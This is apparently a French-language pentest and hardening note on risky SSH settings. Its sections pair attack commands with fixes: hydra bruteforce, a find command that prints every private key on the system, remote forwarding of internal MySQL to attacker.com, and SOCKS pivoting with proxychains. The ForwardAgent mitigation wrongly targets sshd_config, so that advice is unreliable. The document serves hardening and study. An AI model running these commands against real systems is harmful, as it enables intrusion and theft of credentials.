

Ce document détaille les configurations **SSH** à risque et les méthodes de durcissement associées.



## Root Login
L'activation de l'accès **root** via SSH permet une attaque directe par **bruteforce** sur le compte le plus privilégié du système.

### Tester l'accès root
```bash
ssh root@target.com
```

### Vérifier la configuration
```bash
cat /etc/ssh/sshd_config | grep PermitRootLogin
```

### Mitigation
```bash
echo "PermitRootLogin no" >> /etc/ssh/sshd_config
systemctl restart ssh
```

> [!danger] Attention : La modification de sshd_config nécessite un redémarrage du service et peut verrouiller l'accès si mal configuré.

> [!info] Prérequis : L'accès en lecture aux fichiers de configuration nécessite des privilèges root ou une élévation de privilèges préalable.

## Password Authentication
L'autorisation des mots de passe facilite les attaques de type **Credential Stuffing** ou **bruteforce**.

### Bruteforce des identifiants
```bash
hydra -L users.txt -P passwords.txt ssh://target.com -t 4
```

### Vérifier la configuration
```bash
cat /etc/ssh/sshd_config | grep PasswordAuthentication
```

### Mitigation
```bash
echo "PasswordAuthentication no" >> /etc/ssh/sshd_config
systemctl restart ssh
```

> [!warning] Danger : L'utilisation de **hydra** sur un service en production peut déclencher des alertes IDS/IPS ou verrouiller les comptes (fail2ban).

## SSH Key Fingerprinting
L'analyse des empreintes permet d'identifier les hôtes et de détecter des attaques de type Man-in-the-Middle (MitM) ou des changements de clés suspects.

### Extraire l'empreinte de la clé publique distante
```bash
ssh-keyscan target.com | ssh-keygen -lf -
```

### Comparaison avec les clés locales
```bash
cat ~/.ssh/known_hosts | grep target.com
```

## Clés privées exposées
La présence de clés privées sur le système cible permet une compromission immédiate de l'identité de l'utilisateur.

### Rechercher des clés privées
```bash
find / -name "id_rsa*" -exec cat {} \; 2>/dev/null
```

### Mitigation
```bash
ssh-keygen -p -f ~/.ssh/id_rsa
chmod 600 ~/.ssh/id_rsa
```

## Authorized Keys
La modification du fichier `~/.ssh/authorized_keys` est une technique classique de persistance.

### Lister les clés autorisées
```bash
cat ~/.ssh/authorized_keys
```

### Mitigation
```bash
echo "" > ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

## SSH Known Hosts analysis
L'analyse du fichier `known_hosts` permet d'énumérer les cibles précédemment contactées par l'utilisateur, facilitant le mouvement latéral.

### Lister les hôtes connus
```bash
awk '{print $1}' ~/.ssh/known_hosts | sort -u
```

## SSH Tunneling techniques (Local/Remote Port Forwarding)
Techniques permettant de contourner les pare-feux en encapsulant le trafic dans SSH. Voir note **SSH Tunneling and Port Forwarding**.

### Local Port Forwarding (Accéder à un service interne)
```bash
ssh -L 8080:127.0.0.1:80 user@target.com
```

### Remote Port Forwarding (Exposer un service interne vers l'extérieur)
```bash
ssh -R 9000:127.0.0.1:3306 user@attacker.com
```

## SSH Pivoting (Proxychains/Dynamic Forwarding)
Utilisation du protocole SSH pour créer un tunnel SOCKS dynamique, permettant de router tout le trafic réseau à travers la cible. Voir note **Network Pivoting**.

### Création du tunnel dynamique
```bash
ssh -D 9050 user@target.com -N
```

### Utilisation avec Proxychains
```bash
proxychains nmap -sT -Pn -p 22,80 10.10.10.5
```

## TCP Forwarding
L'activation de cette option permet à un attaquant d'utiliser la machine compromise comme proxy pour atteindre d'autres segments réseau, sujet lié au **Network Pivoting**.

### Vérifier la configuration
```bash
cat /etc/ssh/sshd_config | grep AllowTcpForwarding
```

### Mitigation
```bash
echo "AllowTcpForwarding no" >> /etc/ssh/sshd_config
systemctl restart ssh
```

## Agent Forwarding
L'utilisation de l'agent forwarding peut permettre à un attaquant ayant des droits root sur le serveur de détourner la socket de l'agent SSH de l'utilisateur distant.

### Vérifier la configuration
```bash
cat /etc/ssh/sshd_config | grep ForwardAgent
```

### Mitigation
```bash
echo "ForwardAgent no" >> /etc/ssh/sshd_config
systemctl restart ssh
```

## X11 Forwarding
Cette option peut être détournée pour intercepter les entrées clavier ou capturer l'écran de l'utilisateur distant.

### Vérifier la configuration
```bash
cat /etc/ssh/sshd_config | grep X11Forwarding
```

### Mitigation
```bash
echo "X11Forwarding no" >> /etc/ssh/sshd_config
systemctl restart ssh
```

## Version OpenSSH
L'utilisation de versions obsolètes expose le serveur à des vulnérabilités connues.

### Scanner la version
```bash
nmap -p 22 --script=ssh-hostkey target.com
```

### Chercher des exploits
```bash
searchsploit OpenSSH
```

### Mitigation
```bash
apt update && apt upgrade openssh-server
```

## Résumé des configurations

| Vulnérabilité | Solution |
| :--- | :--- |
| **Root Login** (`PermitRootLogin yes`) | `PermitRootLogin no` |
| **Password Auth** (`PasswordAuthentication yes`) | `PasswordAuthentication no` |
| **Clés privées exposées** | `chmod 600 ~/.ssh/id_rsa` |
| **TCP Forwarding** (`AllowTcpForwarding yes`) | `AllowTcpForwarding no` |
| **X11 Forwarding** (`X11Forwarding yes`) | `X11Forwarding no` |
| **Agent Forwarding** (`ForwardAgent yes`) | `ForwardAgent no` |
| **Version OpenSSH obsolète** | `apt upgrade openssh-server` |